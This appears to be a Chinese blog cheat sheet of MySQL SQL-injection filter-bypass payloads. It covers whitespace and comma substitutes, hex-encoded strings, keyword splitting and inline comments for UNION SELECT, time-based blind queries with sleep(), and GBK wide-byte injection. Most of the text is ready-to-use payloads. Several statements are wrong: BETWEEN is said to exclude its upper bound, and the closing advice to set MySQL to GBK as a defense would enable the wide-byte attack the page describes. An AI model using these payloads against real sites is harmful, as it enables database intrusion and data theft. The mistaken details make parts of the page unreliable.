 ```yaml
---
title: SQL注入绕过技巧
author: VVVinson
source: https://www.cnblogs.com/Vinson404/p/7253255.html
tags: [ sql ]
published: false
---
```


1.绕过空格（注释符/* */，%a0）：

两个空格代替一个空格，用Tab代替空格，%a0=空格：

```sql
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```

最基本的绕过方法，用注释替换空格：

```sql
/* 注释 */
```

使用浮点数：

```sql
select * from users where id=8E0union select 1,2,3
select * from users where id=8.0 select 1,2,3
```

2.括号绕过空格：

如果空格被过滤，括号没有被过滤，可以用括号绕过。

在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

例如：

```sql
select(user())from dual where(1=1)and(2=2)
```

这种过滤方法常常用于time based盲注,例如：

```sql
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

（from for属于逗号绕过下面会有）

上面的方法既没有逗号也没有空格。猜解database（）第一个字符ascii码是否
为109，若是则加载延时。

3.引号绕过（使用十六进制）：

会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：

```sql
select column_name  from information_schema.tables where table_name="users"
```

这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这
样的问题就要使用十六进制来处理这个问题了。

users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：

```sql
select column_name  from information_schema.tables where
table_name=0x7573657273
```

4.逗号绕过（使用from或者offset）：

在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：

```sql
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

使用join：

```sql
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b
```

使用like：

```sql
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

对于limit可以使用offset来绕过：

```sql
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0
```

5.比较符号（<>）绕过（过滤了<>：sqlmap盲注经常使用<>，使用between的脚本）：

使用greatest()、least（）：（前者返回最大值，后者返回最小值）

同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行
查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。

最常见的一个盲注的sql语句：

```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64
```

此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用
greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数
(n1,n2,n3,...)的最大值。

那么上面的这条sql语句可以使用greatest变为如下的子句:

```sql
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

使用between and：

between a and b：返回a，b之间的数据，不包含b。

6. or and xor not绕过：

```sql
and=&&  or=||   xor=|   not=!
```

7.绕过注释符号（#，--(后面跟一个空格））过滤：

```sql
id=1' union select 1,2,3||'1
```

最后的`or '1`闭合查询语句的最后的单引号，或者：

```sql
id=1' union select 1,2,'3
```

8.`=`绕过：

使用like 、rlike 、regexp 或者 使用< 或者 >

9.绕过union，select，where等：

（1）使用注释符绕过：

常用注释符：

```sql
//，-- , /**/, #, --+, -- -, ;,%00,--a
```

用法：

```sql
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```

（2）使用大小写绕过：

```sql
id=-1'UnIoN/**/SeLeCT
```

（3）内联注释绕过：

```sql
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```

（4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：

```sql
id=-1'UNIunionONSeLselectECT1,2,3–-
```

10.通用绕过（编码）：

如URLEncode编码，ASCII,HEX,unicode编码绕过：

```sql
or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。
```

11.等价函数绕过：
复制代码

```sql
hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```

12.宽字节注入：

过滤 ' 的时候往往利用的思路是将 ' 转换为 \' 。

在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：

（1）%df 吃掉 \ 具体的方法是 urlencode('\) = %5c%27，我们在 %5c%27 前
面添加 %df ，形成 %df%5c%27 ，而 mysql 在 GBK 编码方式的时候会将两个字
节当做一个汉字，%df%5c 就是一个汉字，%27 作为一个单独的（'）符号在外面：

```sql
id=-1%df%27union select 1,user(),3--+
```

（2）将 \' 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 ，后面的 %5c 会被
前面的 %5c 注释掉。

一般产生宽字节注入的PHP函数：

1.replace（）：过滤 ' \ ，将 ' 转化为 \' ，将 \  转为 \\，将 " 转为 \" 。用思路一。

2.addslaches()：返回在预定义字符之前添加反斜杠（\）的字符串。预定义字
符：' , " , \ 。用思路一

（防御此漏洞，要将 mysql_query 设置为 binary 的方式）

3.mysql_real_escape_string()：转义下列字符：

```
\x00     \n     \r     \     '     "     \x1a
```

（防御，将mysql设置为gbk即可）
